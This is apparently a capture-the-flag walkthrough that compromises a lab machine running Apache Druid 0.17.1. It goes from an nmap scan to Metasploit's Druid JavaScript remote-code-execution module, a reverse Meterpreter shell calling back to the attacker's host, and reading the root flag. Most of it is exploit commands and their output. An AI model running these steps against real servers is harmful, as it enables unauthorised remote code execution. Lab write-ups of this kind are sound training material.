

## Payloads

1. scan the target with nse and version.

```
sudo nmap $target_ip -sCV -T5 -p-
```

output:
```
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
2181/tcp open  zookeeper Zookeeper 3.4.14-4c25d480e66aadd371de8bd2fd8da255ac140bcf (Built on 03/06/2019)
8081/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Did not follow redirect to http://10.129.203.52:8081/unified-console.html
8082/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Site doesn't have a title.
8083/tcp open  http      Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. go to the target ip on port 8081.

<p align="center">
  
</p>

the target machine is running Apache Druid version 0.17.1.

3. search for an apache druid exploit.

```
msf > search druid
```

4. use the druid rce exploit.

```
msf > use exploit/linux/http/apache_druid_js_rce
```

5. set required settings.

```
msf exploit(linux/http/apache_druid_js_rce) > set RHOSTS 10.129.203.52
RHOSTS => 10.129.203.52
msf exploit(linux/http/apache_druid_js_rce) > set LHOST 10.10.14.205
LHOST => 10.10.14.205
msf exploit(linux/http/apache_druid_js_rce) > set RPORT 8081
RPORT => 8081
```

6. run the exploit.

```
msf exploit(linux/http/apache_druid_js_rce) > run
```

output:
```
[*] Started reverse TCP handler on 10.10.14.205:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The target is vulnerable
[*] Using URL: http://10.10.14.205:8080/qHvWB6EzRzC9i
[*] Client 10.129.203.52 (curl/7.68.0) requested /qHvWB6EzRzC9i
[*] Sending payload to 10.129.203.52 (curl/7.68.0)
[*] Sending stage (3106788 bytes) to 10.129.203.52
[*] Meterpreter session 1 opened (10.10.14.205:4444 -> 10.129.203.52:36590) at 2026-11-07 22:15:07 -0500
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.
```

7. obtain shell.

```
meterpreter > shell
```

8. list all files and directories.

```
ls -l
```

output:
```
-rw-r--r--  1  501 staff 59403 Mar 31  2020 LICENSE
-rw-r--r--  1  501 staff 69091 Mar 31  2020 NOTICE
-rw-r--r--  1  501 staff  8228 Mar 31  2020 README
drwxr-xr-x  2 root root   4096 May 16  2022 bin
drwxr-xr-x  5 root root   4096 May 11  2022 conf
drwxr-xr-x 24 root root   4096 May 11  2022 extensions
drwxr-xr-x  3 root root   4096 May 11  2022 hadoop-dependencies
drwxr-xr-x  2 root root  12288 May 11  2022 lib
drwxr-xr-x  4  501 staff  4096 Mar 31  2020 licenses
drwxr-xr-x  4 root root   4096 May 11  2022 quickstart
drwxr-xr-x  6 root root   4096 May 11  2022 var
```

9. find `flag.txt` starting at root.

```
find / -type f -name "flag.txt" 2>/dev/null
```

output:
```
/root/flag.txt
```

10. read the flag.

```
cat /root/flag.txt
```